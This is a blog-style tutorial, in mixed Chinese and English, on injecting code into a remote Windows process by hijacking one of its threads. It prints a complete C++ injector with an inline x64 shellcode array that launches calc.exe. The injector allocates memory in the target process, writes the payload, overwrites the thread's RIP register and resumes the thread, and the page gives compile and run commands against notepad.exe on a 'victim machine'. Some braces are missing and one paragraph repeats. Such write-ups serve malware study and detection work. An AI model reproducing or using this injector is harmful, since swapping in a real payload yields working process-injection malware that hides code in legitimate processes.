\newpage
\subsection{通过线程劫持进行代码注入：简单的 C++ 恶意软件}

今天我将讨论通过线程劫持向远程进程进行代码注入。这是什么意思呢？

{width="80%"}

这项技术的思路很简单：我们不是创建新线程，而是劫持目标进程中已有的线程。

Today I will discuss about code injection to remote process via thread hijacking. This is about code injection via hijacking threads instead of creating a remote thread. There are methods of code injection where you can create a thread from another process using `CreateRemoteThread` at an executable code location, I wrote about this [here](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html). Or for example, classic DLL Injection via `CreateRemoteThread` and executing `LoadLibrary`, passing an argument in the `CreateRemoteThread`. My [post](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) about this technique.

### 示例

我们来看一个演示这项技术的例子：

```cpp
/*
hack.cpp
code injection via thread hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/23/malware-injection-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
  // if we find the process: return process ID
  if (strcmp(procname, pe.szExeFile) == 0) {
  pid = pe.th32ProcessID;
  break;
  }
  hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer

  HANDLE hSnapshot;
  THREADENTRY32 te;
  CONTEXT ct;

  pid = findMyProc(argv[1]);
  if (pid == 0) {
  printf("PID not found :( exiting...\n");
  return -1;
  } else {
  printf("PID = %d\n", pid);

  ct.ContextFlags = CONTEXT_FULL;
  te.dwSize = sizeof(THREADENTRY32);

  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

  if (ph == NULL) {
  printf("OpenProcess failed! exiting...\n");
  return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len,
  MEM_RESERVE | MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);

  // write payload to memory buffer
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // find thread ID for hijacking
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
  if (Thread32First(hSnapshot, &te)) {
  do {
  if (pid == te.th32OwnerProcessID) {
  	  ht = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
  break;
  	}
  } while (Thread32Next(hSnapshot, &te));
  }

  // suspend target thread
  SuspendThread(ht);
  GetThreadContext(ht, &ct);
  // update register (RIP)
  ct.Rip = (DWORD_PTR)rb;
  SetThreadContext(ht, &ct);
  ResumeThread(ht);

  CloseHandle(ph);
  }
  return 0;

```

和往常一样，为了简单起见，我们用 64 位的 `calc.exe` 作为载荷，直接把它内联进代码：

为了按名称查找进程，我用了之前文章里的 `findMyProc` 函数。接下来是 `main` 函数：

这项技术的流程是：首先，我们找到目标进程：

{width="80%"}

然后，和往常一样，在目标进程中为我们的载荷分配空间：

{width="80%"}

并把我们的载荷写入已分配的空间：

{width="80%"}

下一步，我们在目标进程中找到想要劫持的线程的线程 ID。在我们的例子中，我们会取目标进程中第一个线程的线程 ID。我们会用 `CreateToolhelp32Snapshot` 创建目标进程线程的快照，并用 `Thread32Next` 枚举它们。这样就能拿到我们要劫持的线程 ID：

{width="80%"}

然后，挂起我们想要劫持的目标线程：

{width="80%"}

之后，获取目标线程的上下文：

{width="80%"}

把目标线程的 RIP 寄存器（64 位下的指令指针）更新为指向我们的载荷：

{width="80%"}

但这里有个注意事项，叫做「SetThreadContext 异常」。对某些进程来说，易失性寄存器（RAX、RCX、RDX、R8-R11）会被 `SetThreadContext` 设置，而对另一些进程（例如 Explorer、Edge）来说，它们会被忽略。最好不要依赖 `SetThreadContext` 来设置这些寄存器。

提交被劫持的线程：

{width="80%"}

然后在下一步恢复被劫持的线程：

{width="80%"}

如你所见，这并不太难。我们来编译这段恶意软件代码：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive >/dev/null 2>&1
```

{width="80%"}

然后在受害机器上，我们先启动一个 `notepad.exe` 实例，再执行我们的程序：

```cmd
.\hack.exe notepad.exe
```

{width="80%"}

然后在受害机器上，我们先启动一个 `notepad.exe` 实例，再执行我们的程序：

{width="80%"}

如你所见，我们的逻辑完美工作了！

[Thread execution hijacking](https://attack.mitre.org/techniques/T1055/003/)  
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)  
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)  
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)  
[strcmp](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strcmp-wcscmp-mbscmp?view=msvc-160)  
[Taking a Snapchot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)  
[Thread32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32first)  
[Thread32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32next)  
[CloseHandle](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)  
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)  
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)  
[SuspendThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-suspendthread)  
[GetThreadContext](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getthreadcontext)  
[SetThreadContext](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadcontext)  
[ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)  
["Classic" code injection](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html)  
["Classic" DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)  
[Source code in Github](https://github.com/cocomelonc/2021-11-23-malware-injection-6)

如你所见，`main` 函数和我那篇关于向远程进程进行「经典」代码注入的文章里的代码差不多。逻辑上唯一的区别是：我们劫持远程线程，而不是创建新线程。
